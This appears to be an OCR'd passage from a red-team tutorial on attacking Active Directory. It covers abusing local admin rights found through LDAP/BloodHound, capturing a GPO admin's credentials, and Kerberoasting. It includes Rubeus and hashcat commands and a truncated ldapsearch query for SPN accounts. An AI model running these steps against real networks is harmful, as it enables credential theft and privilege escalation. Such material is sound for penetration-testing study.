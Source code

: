 \paragraph{\textbf{   2. Abuse Admin Rights via LocalGroupMember Data}}

LDAP recon tells you \textbf{who is a local admin on what machines}, especially through BloodHound and SharpHound’s AdminTo relationships.

Let’s say you control svc.deploy, and LDAP tells you:

\begin{itemize}
    \item svc.deploy is a local admin on APP-SERVER01

    \item APP-SERVER01 is a session host for GPO\_Admin

\end{itemize}
You have two moves:

\begin{enumerate}
    \item Use svc.deploy to log in and execute code on APP-SERVER01

    \item Capture GPO\_Admin's creds or token

    \item Escalate your privilege via GPO modification or logon script abuse

\end{enumerate}
All triggered by data pulled from LDAP.

\paragraph{\textbf{   3. Pivot Through SPNs and Kerberoast Results}}

Earlier, you found several accounts with SPNs using LDAP:

bash

 


  -b "dc=corp,dc=local" "(servicePrincipalName=*)" samAccountName servicePrincipalName

You request their TGS using Impacket or Rubeus:

Rubeus.exe kerberoast

Then crack it with Hashcat:

hashcat -m 13100 hash.txt rockyou.txt --force


